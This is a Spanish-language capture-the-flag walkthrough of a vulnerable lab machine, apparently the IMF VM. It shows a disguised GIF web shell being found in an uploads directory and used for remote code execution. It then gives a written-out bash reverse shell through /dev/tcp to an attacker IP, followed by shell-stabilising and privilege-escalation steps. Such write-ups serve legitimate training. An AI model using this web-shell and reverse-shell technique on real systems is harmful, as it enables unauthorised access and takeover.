 Ahora lo que hice fue intentar buscar mi archivo en el directorio ``/uploads`` que detecté previamente con fuerza bruta pero no lo encontré por lo tanto busqué si había alguna pista que indique que mi archivo haya sido **renombrado**.

En la respuesta encontré un comentario con una cadena que si en la url me dirigía a /uploads/cadena.gif encontraba mi archivo, por lo tanto ese era el nombre que le asignó la web a mi script.

![[VM 7.png]]

Coloque en la URL el parámetro previamente definido por mi ``?cmd=whoami`` y comprobé que tengo RCE, por lo tanto ahora voy a buscar una Reverse Shell.

![[VM 8.png]]

- ``http://192.168.0.220/imfadministrator/uploads/503683967321.gif?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.0.194/443 0>%261"``

Con esto ganamos acceso a la máquina.

![[VM 9.png]]

----
### Escalada de privilegios

Una vez ganamos acceso a la máquina lo primero es realizar un tratamiento de la TTY como siempre para operar más cómodos.

- ``script /dev/null -c bash``
- ``CTRL + Z``
- ``stty raw -echo; fg``
- ``reset xterm``
- ``export TERM=xterm``
- ``export SHELL=bash``
- ``stty rows 41 columns 184``

------

Dentro del directorio en el que ingresamos a la máquina vemos una flag que al decodificarla nos dice ``agentservices`` por lo tanto esa es nuestra pista.

Utilizando el comando find detectamos que hay dos archivos con el nombre "**agent**", uno es un **binario** y el otro un archivo ``txt`` que indica las características del binario.

![[VM 10.png]]

Chequeamos con ``netstat -nat`` las conexiones activas para ver si aparece el *puerto 7788*

![[VM 11.png]]

En efecto, las conexiones están **activas** para el *puerto 7788*.

Si utilizamos ``ps -faux | grep "agent"`` verificamos si está algún proceso corriendo con este nombre pero no es el caso, por lo tanto lo que podemos hacer es **conectarnos** al equipo local por ese puerto con lo siguiente.

- ``nc localhost 7788``
